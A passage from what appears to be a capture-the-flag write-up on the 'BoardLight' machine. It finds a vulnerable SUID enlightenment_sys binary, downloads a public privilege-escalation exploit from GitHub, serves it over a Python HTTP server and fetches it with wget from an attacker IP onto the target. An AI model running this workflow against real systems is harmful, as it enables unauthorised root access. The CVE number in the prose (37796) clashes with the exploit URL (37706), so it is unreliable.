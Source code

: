 *The script reveals that several SUID binaries are present, including `enlightenment_sys`, which is vulnerable to **CVE-2022-37796**.*

> [!INFORMATION]
> 
> **SUID** bit set allows to run with the privileges of the file owner, which in this case is root. It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems.

*We check the version for potential vulnerabilities.*

```
larissa@boardlight:~$ enlightenment --version
[...]
Version: 0.23.1
[...]
```

*The CVE-2022-37796 describes a flaw in `enlightenment_sys` in `Enlightenment` versions before `0.25.4`*

> [! INFORMATION]
> 
> This vulnerability allows local users to gain **elevated privileges** because the binary is **SUID** and owned as the **root user**, and the system library function mishandles path names that begin with a /dev/.. substring

*We download the exploit script for **CVE-2022-37796** on our attacking machine.*

```
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine

kali # wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh - O exploitPrivEsc.sh
exploit.sh                        100%[=============================================================>]

kali # python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:56:17] "GET /exploitPrivEsc.sh HTTP/1.1" 200 -
```

*On the target machine, we fetch and run the exploit:*

```
--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine


larissa@boardlight:/tmp$ wget http://10.10.14.52:8000/exploitPrivEsc.sh
exploitPrivEsc.sh                 100%[=============================================================>]

--------------------------------------------------------------------------------------------------------------------------
```
